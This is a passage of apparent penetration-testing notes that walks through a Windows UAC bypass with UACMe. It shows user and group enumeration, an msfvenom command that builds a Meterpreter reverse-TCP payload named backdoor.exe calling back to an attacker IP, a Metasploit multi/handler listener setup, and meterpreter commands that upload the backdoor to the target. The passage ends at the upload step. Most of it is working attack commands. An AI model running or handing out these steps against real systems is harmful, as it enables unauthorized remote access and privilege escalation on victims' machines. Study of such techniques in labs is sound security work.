**Windows Commands:**
- View users => `net user`
- Check the local administrator group => `net localgroup administrators` | Make sure the current user you're using is in this group

In the shell session, you'll receive an "`System error 5 has occured. Access is denied` " since we'd need to respond to the UAC consent prompt which can't be done through the shell unless you bypass UAC.

---
2. **Create the metepreter payload with msfvenom and start a listener with multi handler**: We're creating the msfvenom payload because the initial Meterpreter session may lack high privileges or is unstable. Running the payload with UACMe will elevate the meterpreter session's privileges, ensuring the new payload establishes a fully privileged and hopefully more stable session. 
```
msfvenom -p payload LHOST=atk_machine LPORT=l_port -f file_type > file_name
```

Example:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.41.59 LPORT=2345 -f exe > backdoor.exe
```

Start another metasploit instance (`service postgresql start && msfconsole`) and use `multi/handler` to listen for the connection from the  payload.

- **Use/configure the module**: Set the configured payload to the one set from msfvenom. Next, we'll also need to set the `LHOST`/`LPORT` to the same one specified in the payload:
```
msf6> use multi/handler

msf6> set payload windows/meterpreter/reverse_tcp

msf6> set LHOST 10.10.41.59

msf6> set LPORT 2345
```
- **Run the module**: This will start the listener. When the payload is executed on the target it will connect back here.
```
msf6> run
```

---
3. **Upload the executables to the target**: Use the initial meterpreter/shell session to upload the reverse shell payload and akagi executable. It's recommended to have a Temp directory on the root of the C: drive to upload the payload to, so navigate/create the directory on the target.

```
meterpreter> cd C:\\
meterpreter> mkdir Temp
meterpreter> cd Temp\\
```

- Use the `upload`command to push the backdoor executable to the target.
```
meterpreter> upload backdoor.exe
```
